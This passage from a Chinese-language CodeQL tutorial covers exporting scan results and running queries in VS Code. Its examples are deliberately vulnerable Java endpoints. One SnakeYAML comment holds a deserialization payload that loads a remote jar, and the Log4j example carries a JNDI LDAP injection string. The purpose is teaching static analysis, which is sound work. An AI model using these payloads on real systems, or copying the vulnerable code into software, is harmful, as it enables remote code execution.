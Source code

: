 继续往下看，可发现对于使用了 SafeConstructor 的这种安全写法，并未发生误报的情况。

```java
/**
 * http://localhost:8080/rce/vuln/yarm?content=!!javax.script.ScriptEngineManager%20[!!java.net.URLClassLoader%20[[!!java.net.URL%20[%22http://test.joychou.org:8086/yaml-payload.jar%22]]]]
 * yaml-payload.jar: https://github.com/artsploit/yaml-payload
 *
 * @param content payloads
 */
@GetMapping("/vuln/yarm")
public void yarm(String content) {
    Yaml y = new Yaml();
    y.load(content);
}

@GetMapping("/sec/yarm")
public void secYarm(String content) {
    Yaml y = new Yaml(new SafeConstructor());
    y.load(content);
}
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/af727074-a4a4-4cb5-8adc-cecf6c0e1128/image.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45GO43JXI4%2F20241118%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241118T055825Z&X-Amz-Expires=3600&X-Amz-Signature=2410a909fd8b61e9e072df39633a25f6323dc4f210ef2f18ea102a956123b308&X-Amz-SignedHeaders=host&x-id=GetObject)

以上说完了 SARIF 格式，除 SARIF 格式外，还可将分析结果导出成 CSV 格式的文件，利用如下命令。

```bash
codeql database analyze jscdb --format=csv --output=jsc-scan-result.csv
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/ed8f7fad-d977-4ee9-8dec-0d8a790091f8/image.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45GO43JXI4%2F20241118%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241118T055825Z&X-Amz-Expires=3600&X-Amz-Signature=6b80334a2ab08e7c889031c544eec1752bccca75f66d406505fd851bcb691c16&X-Amz-SignedHeaders=host&x-id=GetObject)

在 Excel 中打开 jsc-scan-result.csv 文件，可看到如下结果，但这种方式就不如上面的那么直观。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/0a69188e-c53f-48ff-b4f5-ac1828140162/image.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45GO43JXI4%2F20241118%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241118T055825Z&X-Amz-Expires=3600&X-Amz-Signature=301c91f3eccbabf449deadd493587f45dc3e7962e572f8b9e1d9d994a0a469b3&X-Amz-SignedHeaders=host&x-id=GetObject)

### 在 VS Code 中查询分析

除了利用 CLI 工具对数据库进行分析外，还可在 VS Code 中执行 CodeQL 查询分析。例如如下，运行 Log4J LDAP JNDI 注入查询。

```java
@RestController
public class Log4j {

    private static final Logger logger = LogManager.getLogger("Log4j");

    /**
     * http://localhost:8080/log4j?token=${jndi:ldap://127.0.0.1:1389/0iun75}
     * Default: error/fatal/off
     * Fix: Update log4j to lastet version.
     */
    @RequestMapping(value = "/log4j")
    public String log4j(String token) {
        logger.error(token);
        return token;
    }

    public static void main(String[] args) {
        String poc = "${jndi:ldap://127.0.0.1:1389/0iun75}";
        logger.error(poc);
    }

}
```
